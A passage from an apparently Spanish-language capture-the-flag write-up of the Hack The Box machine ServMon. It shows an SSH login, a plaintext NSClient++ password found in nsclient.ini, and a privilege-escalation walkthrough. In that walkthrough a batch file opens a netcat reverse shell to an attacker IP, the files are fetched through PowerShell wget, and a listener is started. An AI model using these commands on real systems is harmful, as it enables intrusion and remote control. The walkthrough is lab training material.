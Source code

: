 ```console
root@kali:/home/kali# ssh nadine@servmon.htb
nadine@servmon.htb's password: 

Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>cd Desktop                                  
nadine@SERVMON C:\Users\Nadine>type user.txt 
cb1df8..........................
```


## Escalamiento de privilegios

Enumerando todos los directorios a los que el usuario tiene acceso encontramos una contraseña en el archivo `nsclient.ini`

```console
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

En exploit-db se encuentra un exploit de [NSClient++ 0.5.2.35 - Privilege Escalation](https://www.exploit-db.com/exploits/46802) así que vamos a seguir paso a paso lo que nos dice.

Creamos un archivo en batch llamado `evil.bat` con el siguiente código:

```batch
@echo off
c:\temp\nc.exe 10.10.14.43 443 -e cmd.exe
```

Primero nos ubicamos en el directorio donde están los archivos `nc.exe` y `evil.bat` y creamos un servidor http con python `python -m SimpleHTTPServer 80`

Luego enviamos los archivos `nc.exe`  y `evil.bat` a la máquina de ServMon.

```console
nadine@SERVMON C:\>powershell.exe wget "http://10.10.14.43/nc.exe" -outfile "c:\temp\nc.exe"

nadine@SERVMON C:\>powershell.exe wget "http://10.10.14.43/evil.bat" -outfile "c:\temp\evil.bat"
```

En el Kali creamos una sesión con netcat en el puerto 443 y lo dejamos en modo escucha

```console
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
```
